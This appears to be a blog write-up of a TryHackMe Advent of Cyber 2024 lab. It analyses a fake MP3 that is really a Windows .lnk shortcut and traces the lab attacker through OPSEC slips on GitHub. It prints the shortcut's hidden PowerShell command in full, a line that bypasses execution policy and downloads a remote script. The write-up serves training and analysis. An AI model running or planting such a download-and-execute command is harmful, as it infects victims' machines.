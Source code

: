 ```yaml
---
layout: "post"
title: "Tryhackme-AOC2024-Day1"
categories: [AOC2024]
tags: [TryHackMe, write-ups, AOC2024]

---
```


![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*0WHeRElCAfyjjCDXapEQKw.png)

The first day of the **Advent of Cyber 2024** challenges introduces us to key concepts in **digital forensics** and **operational security (OPSEC)**. We investigated a suspicious website that claimed to be a YouTube-to-MP3 converter, uncovering hidden malware and tracing the digital footprints of the threat actor, **M.M.**

Let’s walk through the challenge step-by-step and explore the **tools, techniques**, and **lessons learned** during this exercise.

# Challenge Summary

The task was to analyze a website suspected of hosting malicious files. The investigation required us to:

1. Identify a malicious file masquerading as a song download.
2. Uncover a PowerShell script that sent stolen data to a **Command & Control (C2)** server.
3. Trace the attacker’s **identity** through poor OPSEC practices.

This exercise demonstrated how cybercriminals can leave behind **digital breadcrumbs** and how investigators can connect these clues to uncover the truth.

# Learning Objectives

1. Learn how to investigate suspicious files using **file analysis** tools.
2. Understand **OPSEC** mistakes and their consequences.
3. Attribute malicious activity by correlating **digital artifacts**.

# Introduction to OPSEC

**Operational Security (OPSEC)** originated as a military concept designed to protect classified data from adversaries. In cybersecurity, OPSEC focuses on preventing the exposure of sensitive information that could be exploited.

A security professional must adopt an **operational security mindset**. After all, if we don’t practice OPSEC in our daily lives, we can’t hope to secure an organization’s IT environment.

I’ve previously written a blog on maintaining strong **cybersecurity hygiene** through practical steps like:

- Using **strong, unique passwords**
- Enabling **2FA** (Two-Factor Authentication)
- Regular **software updates**
- Using **anti-virus software** and **VPNs**
- Limiting personal information sharing online

You can check out the full blog [here](https://medium.com/@dharmatejak73/security-hygiene-for-everyone-73eb39083c5e).

# Step-by-Step Walkthrough

## **1. Investigating the Suspicious Website**

   The challenge provided a shady YouTube-to-MP3 converter website. After downloading a “song” file from this site, I unzipped the folder and found two files instead of one.

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*uI03VZXtK0pFuplxFmIk-w.png)
![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*3MpH8jX6p0jigG-04NpJ_w.png)

## **2. Inspecting the File**

Using the `file` command on Linux, I discovered that the **somg.mp3** file was actually a **.lnk file** (a Windows shortcut file):

```
file somg.mp3
```
![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*SiQ8DI4FvaHVS6nU_RAHxA.png)

**What are .lnk files?**

- `.lnk` files are Windows shortcuts that point to other files, folders, or applications.
- Attackers often use them to execute malicious commands or scripts.

## **3. Extracting Metadata with ExifTool**

I used **ExifTool** to extract metadata from the `somg.mp3` file:

```
exiftool somg.mp3
```

The output revealed a **PowerShell command** hidden in the file metadata. Let’s break it down:

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*qEaN4i-ok6bKe1ZeCwGyUg.png)

```
powershell -ep bypass -nop -c "iex (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1', 'C:\ProgramData\IS.ps1')"
```

- **`ep bypass -nop`**: These flags disable PowerShell execution restrictions, allowing scripts to run silently.
- **`DownloadFile`**: Downloads a script (`IS.ps1`) from a remote server.
- **`iex`**: Executes the downloaded PowerShell script.

## **4. Analyzing the PowerShell Script**

The PowerShell script was hosted on a **GitHub repository**. Upon inspecting the script, I noticed a banner stating:

> “Created by the one and only M.M.”

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*1_4zynRv-tiddgt0T9fkvw.png)

This clue led me to investigate the author **M.M.** further.

## **5 Tracing the Attacker (OPSEC Failure)**

Using GitHub’s search functionality, I searched for the banner’s title. The results pointed to a repository where the attacker, **M.M.**, had made a critical OPSEC mistake:

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Y3Yk4N2usnr_4V-wKW8U4Q.png)

- In the repository’s **README.md** file, **M.M.** included their **real name**.
- This allowed me to identify the attacker and confirm their identity.

This is a classic example of an **OPSEC failure** — a minor oversight that exposed the attacker’s true identity.

# **Key Takeaways: OPSEC Lessons Learned**

The mistakes made by **M.M.** underscore the importance of operational security:

- **Avoid reusing names, emails, or banners** that link your activities across platforms.
- Sensitive files, such as PowerShell scripts, should never contain personal identifiers.
- Cybercriminals often leave digital footprints without realizing it.

Real-world examples like **AlphaBay Admin Takedown** and **APT1 OPSEC failures** show how these mistakes can lead to arrests and attribution.

# **Day 1 Challenge Answers**

**1. Who is the author of the song?**

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*kWHMNdeQci2CbCgdyrIWIA.png)

**2. What is the URL of the C2 server?**
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*GAA8PONAIwvi6m5U1apjew.png)

**3. Who is M.M.? Maybe his GitHub profile page would provide clues.**

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Y3Yk4N2usnr_4V-wKW8U4Q.png)

**4. What is the number of commits on the GitHub repo where the issue was raised?**

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*K6_kJvrB5ZcXJW5GauUJEQ.png)

# **Conclusion**

Day 1 of the **Advent of Cyber 2024** challenge offered a great introduction to analyzing malicious files, identifying OPSEC failures, and tracking threat actors. By following **methodical investigative steps** and leveraging tools like **ExifTool**, we can uncover hidden evidence and draw meaningful conclusions.

This challenge not only sharpened my technical skills but also reinforced the importance of **operational security** in both offensive and defensive cybersecurity.

Stay tuned for Day 2 as we continue this exciting journey of learning and discovery!

